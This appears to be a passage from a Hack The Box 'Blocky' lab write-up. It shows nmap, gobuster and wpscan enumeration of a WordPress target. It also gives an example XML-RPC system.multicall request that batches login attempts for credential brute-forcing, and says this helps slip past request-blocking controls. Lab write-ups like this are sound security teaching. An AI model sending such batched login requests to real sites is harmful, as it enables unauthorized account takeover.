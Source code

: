 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.37 -oN nmap.txt -T5 -Pn
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/1.png">

We found a WordPress 4.8 service running on port 80, SSH on 22 and an outdated ProFTPd server on default port 21.

# Enumeration
The website does mention the development of a wiki and a plugin so we'll run gobuster in an attempt to find the locations.

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.37 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/2.png">

We do find the wiki and some other directories. We'll enumerate these in a moment.

As the site is running on WordPress we'll run ```wpscan``` on the target to find possible vulnerabilities. The results show that ```XML-RPC``` is enabled. This is actually an API that allows developers, who make 3rd party application and services, to interact with the WordPress site.

The API is accessible by sending POST requests to http://10.10.10.37/xmlrpc.php. I found a blog writing about abusing this to do bruteforce attacks: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/

An example:
```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```
The advantage is that we can send multiple usernames/passwords in just one POST request. This will help us to avoid any security control in place which could block too many requests.
Downside is that it's a lot of manual work or you'll need to write a script that generates the request. We'll not go down this path because if we do want to run a bruteforce on the WordPress login page there's nothing blocking our attempts in the first case.


